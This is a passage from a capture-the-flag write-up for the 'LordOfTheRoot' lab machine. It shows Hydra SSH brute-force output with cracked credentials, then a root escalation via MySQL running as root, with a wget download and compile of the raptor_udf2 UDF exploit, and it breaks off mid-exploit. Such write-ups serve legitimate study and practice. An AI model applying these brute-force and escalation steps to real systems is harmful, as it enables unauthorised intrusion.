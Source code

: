 	Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-25 04:16:37
	[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
	[DATA] max 16 tasks per 1 server, overall 16 tasks, 40 login tries (l:5/p:8), ~3 tries per task
	[DATA] attacking ssh://192.168.236.10:22/
	[22][ssh] host: 192.168.236.10   login: smeagol   password: MyPreciousR00t
	1 of 1 target successfully completed, 1 valid password found
	Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-25 04:16:43
	```
	- smeagol:MyPreciousR00t
2. Access SSH w/ smeagol:MyPreciousR00t
	![](Pasted%20image%2020220125041805.png)

# Privilege Escalation 
## Root - Via MySQL running as Root
1. Linpeas
	![](Pasted%20image%2020220125042356.png)
2. Check ASLR
	```
	smeagol@LordOfTheRoot:/SECRET/door1$ cat /proc/sys/kernel/randomize_va_space
	2
	```
	- ASLR is enabled, hard/unable to do BOF
3. Check system processes running as root
	```
	smeagol@LordOfTheRoot:/SECRET/door1$ ps aux | grep root
	...
	root      1183  0.0  0.8 327004  8748 ?        Ssl  16:31   0:11 /usr/sbin/mysqld
	...
	```
	![](Pasted%20image%2020220125050305.png)
	- `mysqld` running as root
4. Find SQL Credentials
	```
	smeagol@LordOfTheRoot:/var/www$ grep -Rnw $(pwd)/*/* -ie "sql" --color=always 2>/dev/null
	
	/var/www/978345210/login.php:19:		$sql="select username, password from Users where username='".$username."' AND password='".$password."';";
	/var/www/978345210/login.php:20:		//echo $sql;
	/var/www/978345210/login.php:21:    
	```
	- `/var/www/978345210/login.php`
5. View `login.php`
	![](Pasted%20image%2020220125050453.png)
	- root:darkshadow
6. Access mysql w/ root:darkshadow
7. MySQL running as root exploit
	- https://github.com/1N3/PrivEsc/blob/master/mysql/raptor_udf2.c
	- https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf
8. Exploit
	1. Download `raptor_udf2.c`
		```
		wget https://github.com/1N3/PrivEsc/blob/master/mysql/raptor_udf2.c
		```
	1. Compile `raptor_udf2.c`
		```
		smeagol@LordOfTheRoot:/tmp$ gcc -g -c raptor_udf2.c
		smeagol@LordOfTheRoot:/tmp$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc